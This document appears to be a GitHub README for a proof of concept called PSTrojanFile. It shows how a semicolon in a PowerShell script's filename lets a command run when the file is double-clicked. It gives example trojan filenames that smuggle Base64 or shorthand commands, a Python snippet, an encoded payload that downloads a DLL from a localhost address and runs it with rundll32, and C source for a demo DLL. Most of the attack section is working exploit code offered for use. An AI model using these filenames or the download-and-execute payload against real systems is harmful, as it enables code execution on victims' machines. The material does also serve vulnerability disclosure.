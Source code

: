 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted this off and improved it a bit, reported to Microsoft in 2019 remains unfixed as of the time of this writing. Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just call shorthand commands.

Test;POweRsHeLL -e [BASE64 PAYLOAD];.ps1
OR just call commands straight away!
Testing;saps (gc -) PoC.ps1

1) Execute a remote DLL using rundll32
2) Execute an unintended PS script (for a short non base64 encoded filename)
3) Execute a hidden text-file: Testing;saps (gc -) PoC.ps1  (Optional: attrib +s +h text-file)

Vectors: double click, drag and drop to PS shortcut
Requirements: user must have the following setting to call a secondary script
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

Create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python: <br>  
from base64 import b64encode
b64encode("saps  http://127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code:
#include <windows.h>
//gcc -shared -o mydll.dll mydll.c -m32
//hyp3rlinx 
void evilo(void){
MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){
evilo();
return 0;
}

Video PoC:

